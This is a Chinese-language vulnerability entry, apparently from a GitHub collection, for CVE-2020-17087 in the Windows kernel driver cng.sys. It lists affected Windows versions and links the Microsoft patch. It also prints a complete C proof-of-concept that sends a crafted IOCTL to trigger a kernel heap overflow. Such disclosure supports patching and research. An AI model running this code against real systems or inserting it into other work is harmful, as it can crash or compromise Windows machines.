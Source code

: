 ## CVE-2020-17087

#### 描述

Windows 内核密码驱动程序 cng.sys 中的特权提升漏洞，已作为 CVE-2020-15999（FreeType 2 库中的缓冲区溢出漏洞）的漏洞链的一部分被广泛利用。CVE-2020-17087 被用于逃脱 Google Chrome浏览器的沙箱，以提升被利用系统的特权，且目前该漏洞已被在野利用。 

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested |
| :------------------ | :--------------- | ------- | ------ | ------ |
| Windows Server 2019 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2008 | X64              | R2      | SP1    |        |
| Windows Server 2008 | X86/X64          |         | SP2    |        |
| Windows RT 8.1      |                  |         |        |        |
| Windows 8.1         | X86/X64          |         |        |        |
| Windows 7           | X86/X64          |         | SP1    |        |
| Windows Server 2016 |                  |         |        |        |
| Windows 10          | X86/X64          | 1607    |        |        |
| Windows 10          |                  |         |        |        |
| Windows 10          | X86/X64/ARM64    | 20H2    |        |        |
| Windows 10          | X86/X64/ARM64    | 2004    |        |        |
| Windows 10          | X86/X64/ARM64    | 1903    |        |        |
| Windows 10          | X86/X64/ARM64    | 1909    |        |        |
| Windows 10          | X86/X64/ARM64    | 1809    |        |        |
| Windows 10          | X86/X64/ARM64    | 1803    |        |        |
| Windows Server      |                  | 20H2    |        |        |
| Windows Server      |                  | 2004    |        |        |
| Windows Server      |                  | 1903    |        |        |
| Windows Server      |                  | 1909    |        |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-17087
```

#### 利用方式

目前没有利用方式，只有一个概念代码

```
#pragma comment(lib, "ntdll")

#include <cstdio>
#include <windows.h>

int main() {
  HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
    GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

if (hCng == NULL) {
  printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
  return 1;
}

printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

//
// DataBufferSize overflows when used for allocating memory in
// cng!CfgAdtpFormatPropertyBlock as (uint16)(DataBufferSize * 6).
//
// In this proof-of-concept, an allocation of (uint16)(0x2AAB * 6) = 2
// bytes is requested while 0x2AAB * 6 = 0x10002 bytes are written to it.
//
CONST DWORD DataBufferSize = 0x2AAB;
CONST DWORD IoctlSize = 4096 + DataBufferSize;
BYTE *IoctlData = (BYTE *)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

RtlZeroMemory(IoctlData, IoctlSize);

*(DWORD*)    &IoctlData[0x00] = 0x1A2B3C4D;
*(DWORD*)    &IoctlData[0x04] = 0x10400;
*(DWORD*)    &IoctlData[0x08] = 1;
*(ULONGLONG*)&IoctlData[0x10] = 0x100;
*(DWORD*)    &IoctlData[0x18] = 3;
*(ULONGLONG*)&IoctlData[0x20] = 0x200;
*(ULONGLONG*)&IoctlData[0x28] = 0x300;
*(ULONGLONG*)&IoctlData[0x30] = 0x400;
*(DWORD*)    &IoctlData[0x38] = 0;
*(ULONGLONG*)&IoctlData[0x40] = 0x500;
*(ULONGLONG*)&IoctlData[0x48] = 0x600;
*(DWORD*)    &IoctlData[0x50] = DataBufferSize; // OVERFLOW
*(ULONGLONG*)&IoctlData[0x58] = 0x1000;
*(ULONGLONG*)&IoctlData[0x60] = 0;
RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

ULONG_PTR OutputBuffer = 0;
DWORD BytesReturned;
BOOL Status = DeviceIoControl(
  hCng,
  0x390400,
  IoctlData,
  IoctlSize,
  &OutputBuffer,
  sizeof(OutputBuffer),
  &BytesReturned,
  NULL
);

printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

HeapFree(GetProcessHeap(), 0, IoctlData);
CloseHandle(hCng);

return 0;
}
```


